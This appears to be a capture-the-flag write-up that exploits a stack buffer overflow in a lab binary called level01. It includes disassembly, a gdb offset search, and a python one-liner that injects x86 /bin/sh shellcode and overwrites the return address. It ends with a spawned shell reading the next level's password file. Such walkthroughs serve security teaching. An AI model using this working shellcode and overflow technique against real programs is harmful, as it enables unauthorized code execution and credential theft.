 ## 1- Intro

The program prompts for username and password and returns 0 or 1
to check if password is valid.

First username `fgets` chars is safe because it is limited and reads to
the global variable

`0x0804a040  a_user_name`

And compares first 7 chars to the string `dat_wil`

But the second `fgets` is unsafe because it is limited to 100 but size of the buffer is 16 and it is on the stack

```c
  int password_buffer [16];
  ...
  fgets((char *)password_buffer,100,0);
```

```sh
   0x080484d8 <+8>:     sub    $0x60,%esp
   0x080484db <+11>:    lea    0x1c(%esp),%ebx
   0x080484df <+15>:    mov    $0x0,%eax
   # Size of stack buffer for password is 16
   0x080484e4 <+20>:    mov    $0x10,%edx
...
   0x0804855c <+140>:   mov    0x804a020,%eax
   0x08048561 <+145>:   mov    %eax,0x8(%esp)
   # Size of read is 100
   0x08048565 <+149>:   movl   $0x64,0x4(%esp)
   0x0804856d <+157>:   lea    0x1c(%esp),%eax
   0x08048571 <+161>:   mov    %eax,(%esp)
   0x08048574 <+164>:   call   0x8048370 <fgets@plt>
```

So there is easy task to overflow it and point EIP return pointer to
our SHELLCODE which we can store in username input as it is limited to 256 size read.

## 2 - Hack

### Get ret address offset and shellcode

With pattern generator https://wiremask.eu/tools/buffer-overflow-pattern-generator/?

get offset for EIP

```sh
gdb ./level01
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af
(gdb) i r
...
eip            0x37634136       0x37634136
...
(gdb) 
```

which is 80 

and shellcode from https://raw.githubusercontent.com/offensive-security/exploit-database/master/shellcodes/linux_x86/47513.c

## 3 - Compose attack input and run

For first input add `dat_wil` to pass the name check and `shellcode`

For the second input using offset 80 and `a_user_name` address + 7 (to skip dat_will) override EIP register to redirect program flow to the shellcode

```sh
rm /tmp/exp1
python -c 'sc = "\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80";print "dat_wil" + sc + "\n" + "A" * 80 + "0x0804a047"[2:].decode("hex")[::-1]' > /tmp/exp1
cat /tmp/exp1 - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
